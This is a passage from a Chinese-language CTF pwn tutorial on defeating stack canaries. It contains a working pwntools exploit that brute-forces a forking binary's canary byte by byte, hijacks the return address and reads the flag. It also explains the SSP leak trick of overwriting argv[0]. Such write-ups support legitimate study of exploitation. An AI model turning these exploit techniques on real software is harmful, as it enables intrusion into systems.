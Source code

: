 ```C++
		if(pid < 0) {
			puts("fork error");
			exit(0);
		}
		else if(pid == 0) {
			puts("welcome");
			vul();
			puts("recv sucess");
		}
		else {
			wait(0);
		}
	}
}
//gcc main.c -m32 -o bin
```

然后就硬爆破

#### exp

```python
from pwn import *
p = process('./bin')
elf = ELF("./bin")
p.recvuntil('welcome\n')
canary = '\x00'
for j in range(3):
    for i in range(0x100):
        p.send('a'*100 + canary + chr(i))
        a = p.recvuntil('welcome\n')
        if 'recv' in a:
            canary += chr(i)
            break

p.sendline('a'*100 + canary + 'a'*12 + p32(0x80485FB))
p.sendline("cat flag")
flag = p.recv()
p.close()
log.success('key is:' + flag)
#  [*] Stopped process './bin' (pid 17747)
#  [+] key is:flag{test}
```

## SSP(Stack Smashing Protect) Leak

这个方法不能getshell，但是可以通过触发canary时的报错信息，来打印出我们想要的内存中的值，例如flag
触发canary时会去执行_stack_chk_fail函数，执行这个函数时，会在屏幕上打印这么一段信息
![](7.png)
我们分析下\_\_stack_chk_fail的源码
![](5.png)
他会调用一个\_\_fortify_fail函数并传入"stack smashing detected"字符串
我们接着分析\_\_fortify_fail函数
![](6.png)
此处，第一个%s的参数是msg，第二个参数需要判断，如果msg!=NULL，就打印__libc_argv[0]，否则打印"\<unknown>"，而argv[0]存储的就是程序名，且这个参数存于栈上，我们只要修改栈上的argv[0]指针为flag的地址，就可以打印出flag
